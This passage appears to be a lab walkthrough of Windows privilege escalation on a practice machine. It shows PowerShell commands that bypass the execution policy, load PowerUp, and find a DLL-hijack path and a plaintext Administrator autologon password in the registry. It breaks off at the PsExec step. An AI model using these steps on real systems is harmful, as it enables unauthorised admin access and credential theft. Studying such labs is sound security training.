 _Bypass the PowerShell execution policy to run potentially restricted scripts._

`powershell -ep bypass`

**Explanation:** By default, Windows may prevent the execution of PowerShell scripts due to security policies. The `-ep bypass` argument temporarily bypasses this restriction, allowing the execution of potentially restricted scripts.

_Import and execute the 'PowerUp.ps1' script._

`. ./PowerUp.ps1

**Explanation:** This command imports the PowerUp script into the current PowerShell session, making its functions available for use.

_Run the privilege escalation audit to identify any potential vulnerabilities._

`Invoke-PrivEscAudit`:
```
ModifiablePath    : C:\Users\student\AppData\Local\Microsoft\WindowsApps
IdentityReference : PRIVILEGE-ESCAL\student
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\student\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\student\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\student\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

DefaultDomainName    :
DefaultUserName      : Administrator ←
DefaultPassword      : Str0ng_Password_123321 ←
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons
```

**Explanation:** `Invoke-PrivEscAudit` is a PowerUp function that scans the system for common privilege escalation vectors, such as misconfigured permissions, vulnerable services, and plaintext credentials. The output reveals that the Administrator credentials are stored in plaintext in the registry, which is a critical vulnerability.

_Query the registry to confirm the default autologon username._

`reg query 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' /v DefaultUserName`:
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultUserName    REG_SZ    Administrator ←
```

**Explanation:** The command confirms that the registry key contains the username "Administrator," verifying the data retrieved by `Invoke-PrivEscAudit`.

<span style="color: #e57373;">**Attacker machine**</span>.

_Use PsExec to gain a shell on the target machine as the Administrator using the discovered credentials._

